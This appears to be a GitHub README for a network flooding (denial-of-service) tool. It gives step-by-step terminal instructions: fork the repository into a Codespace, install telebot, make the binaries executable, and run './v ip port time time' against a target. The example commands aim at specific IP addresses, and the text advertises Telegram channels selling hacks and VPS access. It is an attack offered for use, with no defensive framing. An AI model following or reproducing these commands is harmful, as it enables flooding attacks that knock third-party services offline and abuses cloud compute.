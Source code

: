 All people use old or new script if works that's fine!

If u want to attack directly using terminal follow some steps - 
Click on fork  repository! After create codespace of 4 core after creating open terminal
 just run 2 command only one time 
1- pip install telebot
2- chmod +x *

Then attack with command by- 
./v ip port time time 
example-
./v 20.192.168.20 23477 200 200


U have to determine the time two time 
Then delite terminal bash to stop attack 
  -thankyou keep supporting
Must join- venomCHA7.t.me
Wanna buy hacks vps or anything dm - venomXcrazy.t.me
pip install telebot
chmod +x *
./v 4.213.64.206 15787 300 300